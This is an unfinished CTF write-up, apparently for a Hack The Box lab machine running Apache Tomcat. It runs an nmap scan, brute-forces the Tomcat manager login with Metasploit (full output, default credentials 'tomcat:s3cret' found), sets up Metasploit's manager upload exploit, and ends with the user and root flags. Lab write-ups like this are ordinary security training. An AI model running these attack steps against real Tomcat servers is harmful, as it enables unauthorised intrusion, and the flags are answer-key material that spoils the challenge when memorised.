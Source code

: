 Unfinished
# How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.95`

<details><summary>nmap 実行結果</summary>   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 22:18 JST   
Nmap scan report for 10.10.10.95   
Host is up (0.26s latency).   
Not shown: 999 filtered ports   
PORT     STATE SERVICE VERSION   
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1   
|_http-favicon: Apache Tomcat   
|_http-open-proxy: Proxy might be redirecting requests   
|_http-server-header: Apache-Coyote/1.1   
|_http-title: Apache Tomcat/7.0.88   

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.38 seconds
</details>

###  Summary
PORT    STATE SERVICE     VERSION   
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1   

### tips
Tomcat /manager/html 管理画面?  
wordpress の/admin/login.php みたいなやつ?   

## try brute force
`python2 tomcat-brutepy`
Found valid credentials "tomcat:s3cret"

or 
`msfconsole`  
`use auxiliary/scanner/http/tomcat_mgr_login`  
`set RHOSTS 10.10.10.95`  
`exploit`  
<details><summary>exploit 実行結果</summary>   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)   
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)   
[*] Scanned 1 of 1 hosts (100% complete)   
[*] Auxiliary module execution completed   
</details>
## 

use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 10.10.10.95
set httppassword s3cret
set httpusername tomcat
set rport 8080

type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
